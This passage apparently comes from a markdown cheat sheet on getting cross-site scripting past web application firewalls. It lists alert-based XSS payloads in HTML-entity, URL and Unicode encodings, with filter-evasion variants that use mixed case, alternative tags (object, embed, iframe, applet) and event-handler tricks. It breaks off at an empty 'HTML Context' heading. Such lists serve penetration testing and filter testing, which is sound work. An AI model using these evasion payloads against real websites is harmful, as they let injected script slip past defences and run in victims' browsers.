 Web Application Firewalls can be bypassed using various techniques.

### Encoding Techniques

#### 1. HTML Entities
```javascript
&#60;script&#62;alert('XSS')&#60;/script&#62;
&#x3C;script&#x3E;alert('XSS')&#x3C;/script&#x3E;
```

#### 2. URL Encoding
```javascript
%3Cscript%3Ealert('XSS')%3C/script%3E
%3Cimg%20src=x%20onerror=alert('XSS')%3E
```

#### 3. Unicode Encoding
```javascript
\u003cscript\u003ealert('XSS')\u003c/script\u003e
\u003cimg\u0020src=x\u0020onerror=alert('XSS')\u003e
```

### Filter Evasion

#### 1. Case Variation
```javascript
<ScRiPt>alert('XSS')</ScRiPt>
<IMG SRC=x ONERROR=alert('XSS')>
<SVG ONLOAD=alert('XSS')>
```

#### 2. Alternative Tags
```javascript
<object data="javascript:alert('XSS')">
<embed src="javascript:alert('XSS')">
<iframe src="javascript:alert('XSS')">
<applet code="javascript:alert('XSS')">
```

#### 3. Event Handler Variation
```javascript
<img src=x onerror=alert('XSS')>
<img src=x onerror="alert('XSS')">
<img src=x onerror='alert("XSS")'>
<img src=x onerror=alert(String.fromCharCode(88,83,83))>
```

## Context-Aware Payloads {#context-aware}

Different contexts require different payload approaches.

### HTML Context
